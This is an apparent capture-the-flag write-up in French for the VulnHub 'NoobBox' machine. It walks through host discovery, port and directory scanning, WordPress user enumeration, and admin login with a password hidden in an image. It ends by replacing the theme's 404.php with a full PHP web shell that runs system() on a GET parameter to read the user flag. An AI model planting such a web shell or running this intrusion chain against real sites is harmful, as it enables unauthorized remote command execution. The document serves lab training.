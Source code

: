 # Shadow Phreak - NoobBox

Pour cette machine de niveau débutant, l'auteur nous indique qu'il faut trouver 2 flags :
* un flag utilisateur
* un flag administrateur

Il nous indique également que sa machine fonctionne mieux sur VirtualBox que sur VMware.

# Analyse 

## Recherche de l'adresse IP de la machine

L'adresse MAC de la carte réseau de ma machine s'exécutant sous VirtualBox commencera toujours par "08:00:27".  
Je lance donc la commande suivante :
```
sudo netdiscover | grep "08:00:27"

192.168.7.96    08:00:27:b0:7d:2d      1      60  PCS Systemtechnik GmbH
```
Elle me permet d'obtenir l'adresse IP de ma machine : 192.168.7.96

## Recherche d'un point d'entrée

Je commence une première approche avec nmap :
```
sudo nmap -A 192.168.7.96 -p-

PORT   STATE    SERVICE VERSION
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
```
Le point d'entrée sera donc le port 80.

Je visite le site web, il s'agit de la page par défaut d'Apache 2.

Je cherche ensuite s'il n'y a pas des répertoires cachés :
```
dirb http://192.168.7.96

==> DIRECTORY: http://192.168.7.96/wordpress/
```

Je découvre qu'il y a un site WordPress, son contenu ne contient rien d'intéressant.  
Je recherche s'il contient une faille :
```
wpscan --url http://192.168.7.96/wordpress/ -e u

[+] noobbox
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Il ne contient pas de faille mais j'ai récupéré le nom d'utilisateur : noobbox  

Je vais essayer de trouver des fichiers cachés :
```
dirb http://192.168.7.96 -X .php,.html,.bak,.png,.jpg

+ http://192.168.7.96/img.jpg (CODE:200|SIZE:4811)
```

Dans cette image, je trouve la chaîne de caractères suivante : 5p4c3

Je me connecte au site à l'adresse suivante : http://192.168.7.96/wordpress/wp-admin/

Je me rends vite compte que le site utilise l'adresse IP `192.168.43.162` dans tous les liens.

Pour contourner le problème, j'utilise Burp Suite et je remplace en temps réel cette adresse IP par celle de ma VM :

![](https://github.com/mrousse83/VulnHub/raw/main/VulnHub/Shadow%20Phreak/NoobBox/burp.png)

# Exploitation

## Mise en place d'un web shell

Une fois connecté sur l'interface d'administration de WordPress, je modifie la page d'erreur `404.php`, je remplace son contenu par mon web shell :
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

Ensuite, je visite le site en chargeant une page qui n'existe pas afin de faire exécuter ce code.  

J'obtiens mon flag avec la commande suivante : `cat ../../../../home/noobbox/user.txt`
```
USER FLAG : {e7028891afea8df6164a35880cc7e2e5}
```

